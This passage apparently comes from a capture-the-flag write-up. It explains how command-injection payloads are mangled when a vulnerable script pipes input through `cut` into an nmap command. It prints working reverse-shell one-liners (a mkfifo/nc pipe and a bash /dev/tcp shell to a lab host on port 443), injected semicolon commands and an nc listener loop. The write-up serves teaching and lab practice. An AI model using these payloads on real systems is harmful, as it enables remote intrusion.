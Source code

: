 On the other hand, the Bash pipe shell will have some weird results:

    
    
    ; rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc 10.10.14.15 443 > /tmp/f #
    

Passing that into `cut` gives a result:

    
    
    oxdf@parrot$ echo '; rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc 10.10.14.15 443 > /tmp/f #' | cut -d' ' -f3-
    /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc 10.10.14.15 443 > /tmp/f #
    

That will inject into the command to be:

    
    
    nmap --top-ports 10 -oN recon//tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc 10.10.14.15 443 > /tmp/f #.nmap /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc 10.10.14.15 443 > /tmp/f # 2>&1 >/dev/null
    

That might actually work, just as a lucky result of what gets cut.

Another issues I saw was people forgetting to comment out the rest of the
line. So take the payload I used without the comment:

    
    
    oxdf@parrot$ echo "x x x 127.0.0.1; ping -c 1 10.10.14.15" | cut -d' ' -f3-
    x 127.0.0.1; ping -c 1 10.10.14.15
    

That creates:

    
    
    nmap --top-ports 10 -oN recon/x 127.0.0.1; ping -c 1 10.10.14.15.nmap x 127.0.0.1; ping -c 1 10.10.14.15 2>&1 >/dev/null
    

The first `ping` will fail because `10.10.14.15.nmap` is not a valid ip. But
the second will work, but the output will be all piped to `/dev/null`. A rev
shell will get more messed up:

    
    
    oxdf@parrot$ echo "x x x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1'" | cut -d' ' -f3-
    x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1'
    

Becomes:

    
    
    nmap --top-ports 10 -oN recon/x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1'.nmap x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1' 2>&1 >/dev/null
    

The first `bash` call will connect back, but then fail because of the `.nmap`.
The second would actually work, if you are quick enough to have the `nc`
listener receive the first connection, start listening again, and then get the
second. Something like `for i in {1..2}; do nc -lvnp 443; done` will work.
